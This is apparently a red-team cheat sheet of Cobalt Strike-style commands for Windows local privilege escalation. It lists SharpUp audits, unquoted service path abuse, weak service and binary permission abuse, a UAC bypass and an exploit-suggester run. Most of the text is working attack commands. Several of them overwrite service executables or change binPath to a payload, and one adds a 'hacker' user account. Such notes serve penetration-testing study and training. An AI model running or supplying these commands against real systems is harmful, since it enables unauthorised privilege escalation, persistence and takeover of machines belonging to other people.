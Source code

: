 ### SharpUp
https://github.com/GhostPack/SharpUp
```
execute-assembly /root/SharpUp.exe audit
execute-assembly /root/SharpUp.exe audit UnquotedServicePath
execute-assembly /root/SharpUp.exe audit ModifiableServices
execute-assembly /root/SharpUp.exe audit ModifiableServiceBinaries
```

### Unquoted Service Paths
```
run wmic service get name,pathname
powershell Get-Acl -Path "C:\Program Files\Vulnerable Services" | fl
upload C:\Payloads\tcp-local_x64.svc.exe "C:\Program Files\Vulnerable Services\Service.exe"
run sc stop VulnService1
run sc start VulnService1
run sc query VulnService1
```

### Weak Service Permissions
https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls/
```
powershell-import C:\Tools\Get-ServiceAcl.ps1
powershell Get-ServiceAcl -Name VulnService2 | select -expand Access
run sc qc VulnService2
upload C:\Payloads\tcp-local_x64.svc.exe C:\Temp\tcp-local_x64.svc.exe
run sc config VulnService2 binPath= C:\Temp\tcp-local_x64.svc.exe
```

### Weak Service Binary Permissions
```
powershell Get-Acl -Path "C:\Program Files\Vulnerable Services\Service 3.exe" | fl
run sc stop VulnService3
upload C:\Payloads\tcp-local_x64.svc.exe "C:\Program Files\Vulnerable Services\Service 3.exe"
run sc start VulnService3
```

### UAC Bypasses
```
run net user hacker Passw0rd! /add
run whoami /groups
elevate uac-schtasks tcp-local
```

### Local Exploit Suggester
```
systeminfo > system.info
pip2 install xlrd==1.1.0
./windows-exploit-suggester.py -d 2023-01-21-mssb.xls -i system.info
```
